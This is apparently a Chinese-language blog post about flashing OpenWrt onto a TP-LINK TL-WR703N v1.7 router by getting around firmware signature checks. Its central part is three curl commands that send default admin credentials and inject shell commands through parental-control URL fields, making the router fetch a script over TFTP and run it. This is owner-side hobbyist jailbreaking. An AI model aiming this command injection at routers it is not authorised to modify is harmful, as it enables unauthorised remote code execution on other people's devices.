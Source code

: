 ```yaml
---
aliases:
- /notes/2015/03/21/tp-link-tl-wr703n-v1.7-openwrt/
categories: notes
date: "2015-03-21T00:00:00Z"
tags:
- OpenWRT
- WR703N
- TP-LINK
title: TP-LINK TL-WR703N 刷 OpenWRT
---
```


版本号: ver 1.7

原始固件版本: 3.17.1 Build 140120 Rel.56593n

尝试了一下, 这个版本是不能通过web上传非官方的固件, 尝试上传openwrt会报错

`错误代码：18005  上传的文件版本与机型不符。`

评论说是加了签名的的原因.


google了下找到这篇文章: 

[http://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm](http://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)


大家可以参照做一下.

## 严重警告, 刷机需谨慎, 我是准备好TTL线才动手的, 如果没有最好不要冒险, 很容易变砖的...


先按步骤生成或下载这四个要放在tftp下的文件:

1. aa
2. i1
3. i2
4. busybox

我使用过的打包共享一下 [百度网盘下载](http://pan.baidu.com/s/1bno6923)

核心的3条命令:

```bash

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```

有几点要注意的:

1. tftp需要运行在windows上, 而且要使用32位的版本, (Mac上的tftp尝试过无效的). 将ip调整为192.168.1.9
2. 另外执行命令之前需要先在管理界面执行`恢复出厂`, 重启完不要设置密码,  直接开始.
3. windows需要自己装curl.
4. 最后的一条命令比较慢, 一定要等到路由器的灯不在闪了, 或者直接在电脑上打开[http://192.168.1.1](http://192.168.1.1)不断的刷新, 什么时候看到OpenWrt的界面了就好了.


然后插个U盘, 升级一下空间, 就可以尽情折腾了.

完成后:

[![image](/assets/images/201503/tl-wr703n-openwrt.png "升级画面")](/assets/images/201503/tl-wr703n-openwrt.png)


最后感谢一下原文的作者, 因为有这些无私共享的人, 世界才会更美好.

还要感谢一下google, 让我很快找到了这篇文章.

